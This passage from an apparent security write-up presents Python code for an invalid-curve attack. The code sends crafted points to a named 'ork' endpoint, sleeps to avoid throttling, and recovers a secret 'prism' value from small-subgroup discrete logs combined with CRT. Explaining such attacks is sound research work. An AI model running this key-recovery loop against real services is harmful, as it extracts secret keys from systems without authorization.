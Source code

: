 ```
    X_P = gf(x)
    Y_P = gf(y)
    return X_P, Y_P
```

from https://www.rfc-editor.org/rfc/rfc7748#section-4.1
![birational-mappings](diagrams/rfc.png)

And this function is used to convert a montgomery point to twisted, send it to the ork, and convert the received twisted point back to montgomery:

```
import requests

# input: point on montgomery curve.
# output: point received after multiplication by prism value on an ork, converted to montgomery form.

def send_point(G, url, d=-486664):
    G_twist = montg_to_twisted(p, G[0], G[1], d)
    package = pack(G_twist[0], G_twist[1])

    # send package to the appropriate url
    payload={'point': package}
    response = requests.request("POST", url, data=payload)
    receive = response.text
    P_twist = unpack(receive)
    P = twisted_to_montg(p, P_twist[0], P_twist[1], d)
    return P
```

putting it all together, here's the exploit (some functions are not explained for brevity). looping 30 times was not enough to get the full prism value, so I did 42:

```
import time

p = 2^255-19
dlogs = []
primes = []
for i in range(42):
    print("------", i+1, "------")
    b = randint(1, 4444444)
    d = -b - 2
    prime, E, G = create_point(a2=b)
    if prime == None:
        continue
    
    try:
        P = send_point(G.xy(), "https://ork2.westus2.cloudapp.azure.com/Apply/Prism", d=d)
    except:
        continue
    log = compute_discrete_log(E, G, P)
    if log != None:
        dlogs.append(log)
        primes.append(prime)
    time.sleep(20)  # avoid triggering throttle on the ork
print(dlogs)
print(primes)

n = crt(dlogs, primes)
```